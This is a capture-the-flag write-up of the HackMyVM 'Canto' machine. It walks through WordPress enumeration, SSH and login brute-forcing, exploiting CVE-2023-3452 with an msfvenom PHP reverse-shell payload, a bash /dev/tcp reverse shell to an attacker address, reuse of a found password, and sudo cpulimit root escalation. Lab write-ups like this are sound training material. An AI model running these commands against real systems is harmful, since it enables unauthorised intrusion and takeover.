# Writeup Machine Canto from HackMyVM

# Reconissance

##### Nmap

##### Open TCP ports:
- 22 (ssh)
- 80 (http)

##### Open UDP ports:
None

### Web Analysis

Web seems not to contain anything special, let's analyze with some tools.
#### Fuzzing web

Fuzzing the web does not find anything interesting beyond the typical WordPress paths:



#### Wpscan y SSH

We enumerate users and plugins with `wpscan --url http://[machine IP] --enumerate u,vp` There are no vulnerable plugins, but we found a user: erik. We are going to simultaneously attack the SSH port with Hydra as well as wordpress with WPScan:

```terminal
wpscan --url http://[machine IP] --passwords /usr/share/wordlists/rockyou.txt --usernames erik
```

```terminal
hydra -l erik -P /usr/share/wordlists/rockyou.txt ssh://[machine IP]
```

These attacks do not work. So we search deeper. We use Gobuster to look for plugins using the WordPress plugins wordlist:

```terminal
gobuster dir -u http://[machine IP]/wp-content/plugins/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/CMS/wp-plugins-extra.txt
```

We found two plugins that we had not previously identified:  



We check the plugin versions, which is very easy because in WordPress all documentation is located by default inside:

```url
http://.../wp-content/plugins/canto/readme.txt
http://.../wp-content/plugins/akismet/readme.txt
```

The versions are:

- Canto v3.0.4
- Akismet v5.3.2

Let's search online to see if there is any vulnerability we can exploit, and for Canto we found vulnerability `CVE-2023-3452` 

We found a Python script (which we saved under the name exploit.py) that leverages this vulnerability and allows us to upload a payload. We create the following payload using msfvenom:

```terminal
msfvenom -p php/reverse_php LHOST=[Attacker IP] LPORT=[Attacker port] -f raw > canto-shell.php
```

We set Kali to listen on selected port and run the following command for the script:

```terminal
python3 exploit.py -u http://[Machine IP] -LHOST [Attacker IP] -s canto-shell.php
```

-u: URL where our WordPress instance is running 
-LHOST: IP of our attacker machine - Check if necessary 
-s: specifies the file we want to upload and execute 

Once this exploit runs, it opens a connection as the user www-data. We quickly redirect the connection to another port using a reverse shell:

```terminal
bash -c "sh -i >& /dev/tcp/[IP attacker]/[new attacker port] 0>&1"
```

And stabilize the TTY:

```terminal
script /dev/null -c bash -> CTRL+Z 
stty raw -echo; fg 
(reset xterm)
export TERM=xterm
export SHELL=bash
```

Once stabilized, we navigate to /home/ and see that there is a user `erik`, but as the `www-data` user, we cannot read documents like the flag:



However, we can access the notes folder and see what it says:

```txt
Day1.txt = On the first day I have updated some plugins and the website theme.

Day2.txt = I almost lost the database with my user so I created a backups folder.
```

Let's search for the backups folder:

```terminal
find / d -name backups 2> /dev/null
```

We find the following:



In the directory `/var/wordpress/backups` we find the following:



We now have the username and password for `erik`: `th1sIsTheP3ssw0rd!`

Now we log in via SSH and gain access to the victim machine:



Now we can access the flag:



# Privilege Escalation

We check if `erik` can execute anything as superuser with `sudo -l` and see that he can:



If we go to the GTFOBins page, we find the following:



We execute the following command:

```terminal
sudo cpulimit -l 100 -f -- /bin/sh
```

And we get root privileges:



We can now obtain the root flag:


